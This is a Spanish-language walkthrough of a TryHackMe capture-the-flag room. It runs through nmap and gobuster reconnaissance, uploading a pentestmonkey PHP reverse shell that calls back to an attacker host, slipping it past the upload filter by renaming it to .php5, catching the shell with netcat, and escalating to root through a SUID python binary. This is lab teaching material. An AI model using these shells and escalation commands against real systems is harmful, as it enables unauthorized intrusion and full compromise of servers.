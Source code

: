 Bievenidos a otra sala de TryHackMe. Realizamos nuestro escaneo para averiguar puertos abiertos, descubrimos directorios ocultos con gobuster y cargamos nues shell con una ligera modificacion para luego escalar privilegios abusandonos del permiso python.

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.23s latency).
Scanned at 2023-07-03 06:08:54 EDT for 23s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap

```

Nuestro escaneo de nmap nos muestra 2 puertos abiertos. Al navegar al servidor web vemos nada mas que un mensaje y mucho no se puede hacer. Realizaremos una busqueda a directorio ocultos con nuestra herramienta gobuster.

```bash
gobuster dir -u http://IPTARGET -w /Path/Wordlist

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://IPTARGET
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/07/03 06:09:27 Starting gobuster
=====================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
=====================================================
2023/07/03 06:17:20 Finished
====================================================
```

Ya tenemos dos directorios que podemo usar para generar una reverse shell en nuestra maquina atacante, los directorios que vamos a utilizar son /panel y /uploads.

# Intrusion

Navegamos al directorio /panel, donde el servidor web nos indica que podemos cargar archivos desde nuestro sistema. En este caso lo mejor es cargar una reverse shell, que yo utilizo php de pentestmonkey:

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = 'LHOST'; 
$port = LPORT;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

# El codigo sigue, lo corte para no ocupar mucho espacio

```



Al cargar nuestro archivo, nos tira un error de que el servidor web no admite archivos php. En este caso, podemos renombrar la shell con algo muy simple para que el servidor web pueda admitirlo.

```bash
mv shell.php shell.php5
```

De esta forma, podemos cargar nuestra shell. Nos pondemos en escucha con el puerto que le indicamos a nuestro shell y nos dirigimos al directorio /uploads, donde veremos nuestro shell cargado. Lo seleccionamos y obtenemos una respuesta exitosa en nuestra maquina atacante.

```bash
nc -nvlp LPORT

# Nos dirigimos al direcotior /uploads

http://IPTARGET/uploads

# Seleccionamos nuestra shell

http://IPTARGET/uploads/shell.php
```

# Priv.Escalation

Enumeramos permisos elevados dentro del sistema

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

Escalamos privilegios abusando del permiso **python**.
Podremos obtener una shell interactiva con usuario raiz root, o bien leer el contenido de algun archivo especifico que querramos descubrir.

```bash
python -c 'print(open("/root/root.txt").read())'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Esta informacion esta disponible en https://gtfobins.github.io/gtfobins/python/